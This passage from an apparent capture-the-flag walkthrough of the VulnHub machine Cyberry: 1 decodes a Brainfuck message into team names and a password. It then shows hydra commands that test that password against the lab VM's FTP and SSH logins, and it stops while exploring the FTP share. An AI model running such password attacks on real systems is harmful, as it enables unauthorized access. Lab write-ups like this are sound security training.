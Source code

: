 Despite its strange looking form, what you see above is the esoteric [Brainfuck][4] language. An online [interpreter][5] deciphers it to the following.

```
Hello World!
team members
chuck
halle
nick
terry
mary
kerry
pw: bakeoff
```

OK. I have the team members' names and a password but to whom does the password belong to? I can verify it using `hydra`.

```
# hydra -L members.txt -p bakeoff -f ftp://192.168.198.128
[21][ftp] host: 192.168.198.128 login: mary password: bakeoff

# hydra -L members.txt -p bakeoff -f ssh://192.168.198.128
[22][ssh] host: 192.168.198.128 login: mary password: bakeoff
```

The password to both `ftp` and `ssh` is `bakeoff`. Although it's a pity that `mary` doesn't have a shell, I'm sure we'll have better luck with `ftp`.

### FTP Access

![ftp.png](/assets/images/posts/cyberry-1-walkthrough/cyberry-9.png)

Notice that `.bash_history` is a directory? This is unusual and worth taking a closer look.

![.bash_history.png](/assets/images/posts/cyberry-1-walkthrough/cyberry-10.png)


[1]: https://www.vulnhub.com/entry/cyberry-1,217/
[2]: https://twitter.com/@cyberrysec
[3]: https://www.vulnhub.com
[4]: https://en.wikipedia.org/wiki/Brainfuck
[5]: https://copy.sh/brainfuck/